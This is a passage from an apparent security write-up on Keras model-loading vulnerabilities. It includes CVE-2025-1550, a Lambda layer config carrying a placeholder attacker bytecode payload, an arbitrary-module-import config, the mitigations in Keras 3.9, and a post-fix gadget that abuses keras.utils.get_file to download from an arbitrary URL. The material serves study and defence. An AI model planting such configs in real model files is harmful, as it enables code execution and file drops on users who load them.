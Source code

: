 ```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "exploit_lambda",
    "function": {
      "function_type": "lambda",
      "bytecode_b64": "<attacker_base64_marshal_payload>"
    }
  }
}
```

Mitigation:
- Keras enforces safe_mode=True by default. Serialized Python functions in Lambda are blocked unless a user explicitly opts out with safe_mode=False.

Notes:
- Legacy formats (older HDF5 saves) or older codebases may not enforce modern checks, so “downgrade” style attacks can still apply when victims use older loaders.

## CVE-2025-1550 – Arbitrary module import in Keras ≤ 3.8

Root cause:
- _retrieve_class_or_fn used unrestricted importlib.import_module() with attacker-controlled module strings from config.json.
- Impact: Arbitrary import of any installed module (or attacker-planted module on sys.path). Import-time code runs, then object construction occurs with attacker kwargs.

Exploit idea:

```json
{
  "module": "maliciouspkg",
  "class_name": "Danger",
  "config": {"arg": "val"}
}
```

Security improvements (Keras ≥ 3.9):
- Module allowlist: imports restricted to official ecosystem modules: keras, keras_hub, keras_cv, keras_nlp
- Safe mode default: safe_mode=True blocks unsafe Lambda serialized-function loading
- Basic type checking: deserialized objects must match expected types

## Post-fix gadget surface inside allowlist

Even with allowlisting and safe mode, a broad surface remains among allowed Keras callables. For example, keras.utils.get_file can download arbitrary URLs to user-selectable locations.

Gadget via Lambda that references an allowed function (not serialized Python bytecode):

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "dl",
    "function": {"module": "keras.utils", "class_name": "get_file"},
    "arguments": {
      "fname": "artifact.bin",
      "origin": "https://example.com/artifact.bin",
      "cache_dir": "/tmp/keras-cache"
    }
  }
}
```